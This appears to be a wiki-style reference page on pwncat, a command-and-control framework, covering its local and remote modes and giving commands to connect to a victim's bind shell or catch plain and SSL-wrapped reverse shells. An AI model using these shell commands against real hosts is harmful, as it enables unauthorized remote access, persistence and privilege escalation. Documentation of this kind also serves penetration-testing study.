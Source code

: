 pwncat is a [[Command and Control (C2)|command and control]] framework which turns a basic [[reverse shell]] or [[bind shell]] into a fully-featured exploitation platform. After initial connection, the framework will probe the remote system to identify useful binaries natively available on the target system. It will then attempt to start a pseudoterminal on the remote host and provide you with raw terminal access.

On top of raw terminal access, pwncat can programmatically interact with the remote host alongside your terminal access. pwncat provides you with a local shell interface which can utilize your connection for enumeration, file upload/download, automatic persistence installation and even automated privilege escalation.

There are two main operating modes while interacting with a victim in pwncat: remote and local. At any given time, the prompt will include either `(local)` or `(remote)` to indicate the current mode. When using local mode, you have access to pwncat-specific commands such as upload, download, use, run and exit. In remote mode, you will have access to a platform-specific shell environment (e.g. bash or powershell).

To toggle between these modes, you can use the `C-d` key combination. This combination is intercepted by pwncat before being sent to the target when in remote mode. If you need to send a `C-d` combination directly to the target, you can use the `C-k` prefix. Prefixing `C-d` or `C-k` with `C-k` will tell pwncat to send the literaly `C-d` or `C-k` sequence to the target.

Some examples of its usage:

```bash
# netcat syntax
pwncat-cs 192.168.1.1 4444
# Full connection string
pwncat-cs connect://192.168.1.1:4444
# Connection string with assumed protocol
pwncat-cs 192.168.1.1:4444
```

!!! info
    In this case, the victim is running a raw bind shell on an open port. The victim must be available at an address which is routable.

You can also connect to a victim encrypted bind shell:

```bash
# Full connection string
pwncat-cs connect://192.168.1.1:4444
# ncat style syntax
pwncat-cs --ssl 192.168.1.1 4444
pwncat-cs --ssl 192.168.1.1:4444
```

!!! info
    In this case, the victim is running a ssl-wrapped bind shell on an open port. The victim must be available at an address which is routable (e.g. not NAT’d). The `ssl-connect` protocol provides this capability.

Or you can catch a victim rev shell:

```bash
# netcat syntax
pwncat-cs -lp 4444
# Full connection string
pwncat-cs bind://0.0.0.0:4444
# Assumed protocol
pwncat-cs 0.0.0.0:4444
# Assumed protocol, assumed bind address
pwncat-cs :4444
```

!!! info
    In this case, the victim was exploited in such a way that they open a connection to your attacking host on a specific port with a raw shell open on the other end. Your attacking host must be routable from the victim machine. This mode is accessed via the `bind` protocol.

Or even catch a victim encrypted rev shell:

```bash
# ncat style syntax
pwncat-cs --ssl --ssl-cert cert.pem --ssl-key cert.pem -lp 4444
# Full connection string
pwncat-cs ssl-bind://0.0.0.0:4444?certfile=/path/to/cert.pem&keyfile=/path/to/key.pem
# Auto-generated self-signed certificate
pwncat-cs --ssl -lp 4444
# Auto-generated self-signed certificate with explicit protocol
pwncat-cs ssl-bind://0.0.0.0:4444
```

!!! info
    In this case, the victim was exploited in such a way that they open an ssl connection to your attacking host on a specific port with a raw shell open on the other end. Your attacking host must be routable from the victim machine. This mode is accessed via the `ssl-bind` protocol.


